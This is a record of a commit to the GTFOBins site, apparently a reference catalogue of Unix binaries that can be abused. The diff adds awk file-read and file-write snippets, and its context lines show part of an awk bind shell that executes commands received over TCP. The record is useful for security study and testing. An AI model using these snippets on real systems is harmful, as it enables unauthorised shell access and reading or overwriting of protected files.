

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/awk.md, in a window 1280 px wide. Shown: the whole page at 91% size, without its empty margins (208-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1278 px from its top, so only the background shows below that.

Commit message:
Add awk file-read/write

```diff
--- a/_gtfobins/awk.md
+++ b/_gtfobins/awk.md
@@ -23,4 +23,13 @@ functions:
             s = "/inet/tcp/" LPORT "/0/0";
             while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
             while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
+  file-read:
+    - code: |
+        LFILE=file_to_read
+        awk '//' "$LFILE"
+  file-write:
+    - code: |
+        LFILE=file_to_write
+        awk -v LFILE=$LFILE 'BEGIN { print "data" > LFILE }'
+
 ---
```
